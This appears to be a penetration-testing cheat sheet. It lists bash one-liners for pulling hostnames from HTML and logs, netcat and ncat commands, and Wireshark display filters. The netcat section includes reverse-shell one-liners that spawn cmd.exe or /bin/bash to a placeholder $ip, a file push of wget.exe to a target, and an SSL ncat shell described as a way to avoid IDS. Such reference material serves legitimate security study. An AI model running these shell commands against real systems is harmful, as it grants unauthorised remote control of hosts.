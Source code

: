     -   Extract all the lines that contain a string  
        `grep "href=" index.html`

    -   Cut a string by a delimiter, filter results then sort  
        `grep "href=" index.html | cut -d "/" -f 3 | grep "\\." | cut -d '"' -f 1 | sort -u`

    -   Using Grep and regular expressions and output to a file  
        `cat index.html | grep -o 'http://\[^"\]\*' | cut -d "/" -f 3 | sort –u &gt; list.txt`

    -   Use a bash loop to find the IP address behind each host  
        `for url in $(cat list.txt); do host $url; done`

    -   Collect all the IP Addresses from a log file and sort by
        frequency  
        `cat access.log | cut -d " " -f 1 | sort | uniq -c | sort -urn`

-   Netcat - Read and write TCP and UDP Packets

    -   Connect to a POP3 mail server  
        `nc -nv $ip 110`

    -   Listen on TCP/UDP port  
        `nc -nlvp 4444`

    -   Connect to a netcat port  
        `nc -nv $ip 4444`

    -   Send a file using netcat  
        `nc -nv $ip 4444 &lt; /usr/share/windows-binaries/wget.exe`

    -   Receive a file using netcat  
        `nc -nlvp 4444 &gt; incoming.exe`

    -   Create a reverse shell with Ncat using cmd.exe on Windows  
        `nc -nlvp 4444 -e cmd.exe`

    -   Create a reverse shell with Ncat using bash on Linux  
        `nc -nv $ip 4444 -e /bin/bash`

-   Ncat - Netcat for Nmap project which provides more security avoid
    IDS

    -   Reverse shell from windows using cmd.exe using ssl  
        `ncat --exec cmd.exe --allow $ip -vnl 4444 --ssl`

    -   Listen on port 4444 using ssl  
        `ncat -v $ip 4444 --ssl`

-   Wireshark
    -   Show only SMTP (port 25) and ICMP traffic:
         `tcp.port eq 25 or icmp`
        
    -   Show only traffic in the LAN (192.168.x.x), between workstations and servers -- no Internet:
        `ip.src==192.168.0.0/16 and ip.dst==192.168.0.0/16`
        
    -   Filter by a protocol ( e.g. SIP ) and filter out unwanted IPs:
        `ip.src != xxx.xxx.xxx.xxx && ip.dst != xxx.xxx.xxx.xxx && sip`
        
    -   Some commands are equal
        `ip.addr == 10.43.54.65`
         Equals
        `ip.src == 10.43.54.65 or ip.dst == 10.43.54.65 `
